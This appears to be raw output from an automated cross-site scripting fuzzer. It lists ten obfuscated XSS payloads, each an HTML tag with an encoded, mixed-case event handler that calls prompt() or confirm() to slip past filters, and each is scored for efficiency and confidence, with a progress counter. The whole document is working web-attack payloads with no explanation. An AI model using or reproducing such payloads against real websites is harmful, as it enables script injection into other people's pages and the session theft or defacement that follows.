 ------------------------------------------------------------
 Payload: <DEtAILs/+/ONpOinTerEnTER%0d=%0d(prompt)``%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 242/1536
 
------------------------------------------------------------
 Payload: <A%0donPoinTERENTER%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 243/1536
 
------------------------------------------------------------
 Payload: <detAIlS%0aOnToGgLe%0d=%0da=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 244/1536
 
------------------------------------------------------------
 Payload: <htML%0dONmoUSeOver%09=%09[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 245/1536
 
------------------------------------------------------------
 Payload: <HtML%0doNPointErENtER%09=%09a=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 246/1536
 
 Progress: 247/1536
 
 Progress: 248/1536
 
------------------------------------------------------------
 Payload: <d3V%0doNMOusEovEr%0d=%0d[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 249/1536
 
------------------------------------------------------------
 Payload: <HTML%0aONmousEoveR+=+(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 250/1536
 
------------------------------------------------------------
 Payload: <d3V%0aONMOUsEoVer+=+confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 251/1536
 
------------------------------------------------------------
 Payload: <d3V/+/OnmoUsEover%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 252/1536
 